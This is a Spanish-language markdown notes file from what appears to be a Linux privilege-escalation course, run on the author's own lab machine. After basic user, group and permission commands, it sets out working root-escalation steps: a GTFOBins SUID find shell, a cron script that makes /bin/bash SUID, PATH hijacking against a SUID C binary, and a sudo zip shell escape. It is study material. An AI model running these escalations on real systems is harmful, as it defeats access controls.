

### Creacion y gestion de usuarios
```bash
cat /etc/passwd | grep "sh$" # $ - end with
cat /etc/passwd | grep "sh$" | awk -F':' '{print $1}'

whoami
# ans
edibuaer

id
# ans
uid=1000(edibauer) gid=1000(edibauer) groups=1000(edibauer),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),103(scanner),116(bluetooth),119(lpadmin),124(wireshark),131(kaboxer)

# ADDING USER
sudo su
mkdir pepito
useradd -d /home/pepito -s /bin/bash pepito

# SETTING PASSWORD
passwd pepito

# SETTING OWNER
chown pepito pepito
# ans
total 24
drwx------ 31 edibauer edibauer  4096 Mar  7 22:45 edibauer
drwx------  2 root     root     16384 Jan 10 18:53 lost+found
drwxr-xr-x  2 pepito   root      4096 Mar  7 22:46 pepito

# SETTING GROUP
chgrp pepito pepito
# ans
total 24
drwx------ 31 edibauer edibauer  4096 Mar  7 22:45 edibauer
drwx------  2 root     root     16384 Jan 10 18:53 lost+found
drwxr-xr-x  2 pepito   pepito    4096 Mar  7 22:46 pepito

chown root:edibauer pepito
chown pepito:pepito pepito

su pepito
id
#ans
uid=1001(pepito) gid=1001(pepito) groups=1001(pepito) # not in sudoers file

```
### Asignacion e intepretacion de permisos
```bash
su pepito

mkdir directorio
ls -l
# ans
total 4
drwxrwxr-x 2 pepito pepito 4096 Mar  7 23:04 directorio

exit
whoami
# ans
edibauer

cd /home/pepito/directorio
touch file.txt
# ans
touch: cannot touch 'archivo.txt': Permission denied

# ADDING PERMISSIONS
sudo su
chmod o+w directorio
ls -l
# ans
total 4
drwxrwxrwx 2 pepito pepito 4096 Mar  7 23:04 directorio

chmod o-w directorio
ls -l
# ans
total 4
drwxrwxr-x 2 pepito pepito 4096 Mar  7 23:04 directorio

chmod g+w directorio
chmod g-w,o+w directorio

# ADDING GROUP PERMISSIONS
su pepito
mkdir directorio
# ans
total 4
drwxrwxr-x 2 pepito pepito 4096 Mar  8 00:27 directorio

sudo su
groupadd colegio
cat /etc/group | tail -n 1
#ans
colegio:x:1002:

chgrp colegio directorio
ls -l
# ans
total 4
drwxrwxr-x 2 pepito colegio 4096 Mar  8 00:27 directorio

# ADDING USER INTO A GROUP
usermod -a -G colegio edibauer
id edibauer
# ans
uid=1000(edibauer) gid=1000(edibauer) groups=1000(edibauer),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),103(scanner),116(bluetooth),119(lpadmin),124(wireshark),131(kaboxer),1002(colegio)

chmod g-rwx directorio

su edibauer
cd directorio
# ans
cd: permission denied: directorio

```
### SUID
```bash
which find
which find | xargs ls -l
# ans
-rwxr-xr-x 1 root root 233040 Aug 10  2024 /usr/bin/find

# SETTING SUID PERMS
chmod 4755 /usr/bin/find

# gtfobins.org : search SUID vuln using find (SUID)
find . -exec /bin/sh -p \; -quit

# Execute bin like owner temporaly


```
### 08 Abuso privilegios
```
uname -a
lsb_release -a

cd /
find \-perm -4000 2>/dev/null
find \-writable 2>/dev/null

openssl passwd # to create pass

```
### 09 Cron
```bash
sudo su
cd /etc/cron.d

```


```bash
nvim tarea

* * * * * root /home/edibauer/Desktop/file.sh

nvim file.sh
# file.sh
#!/bin/bash

sleep 9
rm -r /tmp/*

chmod +x file.sh
chmod o+x file.sh


```
### 10 Deteccion tareas cron
```bash
ps -eo command

# procmon.sh
#!/bin/bash

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "${old_process}") <(echo "${new_process}") | grep "[\>\<]" | grep -v "kworker"
	old_process=${new_process}
done

# ans
> /usr/sbin/CRON -f
> /bin/sh -c /home/edibauer/Desktop/file.sh
> /bin/bash /home/edibauer/Desktop/file.sh
> sleep 9

# CHANGING file.sh
#!/bin/bash
chmod 4755 /bin/bash

watch -n 1 /bin/bash
# ans
-rwsr-xr-x 1 root root 1380656 Sep  3  2025 /bin/bash

bash -p
whoami
# and
root


```
### 11 PathHijacking
```bash
sudo su

# backup.c file
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void main() {
	setuid(0);
	printf("\n\n [+] Listando procesos...(/usr/bin/ps):\n\n");
	system("/usr/bin/ps");
	printf("\n\n [+] Listando procesos...(ps):\n\n");
	system("ps");
}

gcc backup.c -o back_up
chmod 4755 back_up

su pepito
./back_up


```
### 12 PathHijacking
```bash
echo $PATH
# ans
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

cd /tmp
nvim whoami

# whoami file
ps

# in /tmp dir
export PATH=.:$PATH
echo $PATH
# ans
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

whoami
# ans
    PID TTY          TIME CMD
1679320 pts/2    00:00:00 bash
1682609 pts/2    00:00:00 bash
1682610 pts/2    00:00:00 ps

exit # to roolback PATH variable
su pepito

cd /tmp
touch ps
chmod +x ps

# ps file
bash -p

export PATH=/tmp:$PATH
cd /home/edibauer/Desktop

./back_up

```
### 13 Capabilitites
```bash
cd /


```
### 68 Abuso Sudoers
```bash
sudo su

mkdir pepe
useradd pepe -d /home/pepe -s /bin/bash
passwd pepe

# ADD USER INTO SUDOERS FILE
nano /etc/sudoers # like root
pepe ALL=(root) NOPASSWD: /usr/bin/zip

su pepe
sudo -l
# ans
Matching Defaults entries for pepe on kali:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User pepe may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/zip
bash-5.3$ 

# GTFOBins
sudo zip /tmp/test.zip /etc/hosts -T -TT 'sh -c /bin/bash'


```
### 69 Abuso SUID
```bash
cd /
find \-perm -4000 2>/dev/null


```